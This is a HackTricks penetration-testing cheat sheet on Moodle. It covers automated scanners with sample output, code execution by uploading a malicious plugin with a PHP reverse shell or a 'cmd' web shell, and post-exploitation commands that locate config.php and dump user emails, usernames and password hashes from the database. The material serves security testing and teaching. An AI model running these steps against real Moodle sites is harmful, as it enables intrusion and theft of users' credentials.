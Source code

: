 # Moodle

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

{% hint style="danger" %}
<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="original">

If you are interested in **hacking carer** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}
{% endhint %}

## Automatic Scans

### droopescan

```bash
pip3 install droopescan
droopescan scan moodle -u http://moodle.example.com/<moodle_path>/

[+] Plugins found:                                                              
    forum http://moodle.schooled.htb/moodle/mod/forum/
        http://moodle.schooled.htb/moodle/mod/forum/upgrade.txt
        http://moodle.schooled.htb/moodle/mod/forum/version.php

[+] No themes found.

[+] Possible version(s):
    3.10.0-beta

[+] Possible interesting urls found:
    Static readme file. - http://moodle.schooled.htb/moodle/README.txt
    Admin panel - http://moodle.schooled.htb/moodle/login/

[+] Scan finished (0:00:05.643539 elapsed)
```

### moodlescan

```bash
#Install from https://github.com/inc0d3/moodlescan
python3 moodlescan.py -k -u http://moodle.example.com/<moodle_path>/

Version 0.7 - Dic/2020
.............................................................................................................

By Victor Herrera - supported by www.incode.cl
	
.............................................................................................................

Getting server information http://moodle.schooled.htb/moodle/ ...

server         	: Apache/2.4.46 (FreeBSD) PHP/7.4.15
x-powered-by   	: PHP/7.4.15
x-frame-options	: sameorigin
last-modified  	: Wed, 07 Apr 2021 21:33:41 GMT

Getting moodle version...

Version found via /admin/tool/lp/tests/behat/course_competencies.feature : Moodle v3.9.0-beta

Searching vulnerabilities...


Vulnerabilities found: 0

Scan completed.
```

### CMSMap

```bash
pip3 install cmsmap
cmsmap http://moodle.example.com/<moodle_path>
```

### CVEs

I found that the automatic tools are pretty **useless finding vulnerabilities affecting the moodle version**. You can **check** for them in [**https://snyk.io/vuln/composer:moodle%2Fmoodle**](https://snyk.io/vuln/composer:moodle%2Fmoodle)

## **RCE**

You need to have **manager** role and you **can install plugins** inside the **"Site administration"** tab\*\*:\*\*

![](<../../.gitbook/assets/image (447).png>)

If you are manager you may still need to **activate this option**. You can see how ins the moodle privilege escalation PoC: [https://github.com/HoangKien1020/CVE-2020-14321](https://github.com/HoangKien1020/CVE-2020-14321).

Then, you can **install the following plugin** that contains the classic pentest-monkey php r**ev shell** (_before uploading it you need to decompress it, change the IP and port of the revshell and crompress it again_)

{% file src="../../.gitbook/assets/moodle-rce-plugin.zip" %}

Or you could use the plugin from [https://github.com/HoangKien1020/Moodle\_RCE](https://github.com/HoangKien1020/Moodle\_RCE) to get a regular PHP shell with the "cmd" parameter.

To access launch the malicious plugin you need to access to:

```bash
http://domain.com/<moodle_path>/blocks/rce/lang/en/block_rce.php?cmd=id
```

## POST

### Find database credentials

```bash
find / -name "config.php" 2>/dev/null | grep "moodle/config.php"
```

### Dump Credentials from database

```bash
/usr/local/bin/mysql -u <username> --password=<password> -e "use moodle; select email,username,password from mdl_user; exit"
```

{% hint style="danger" %}
<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="original">

If you are interested in **hacking carer** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}
{% endhint %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
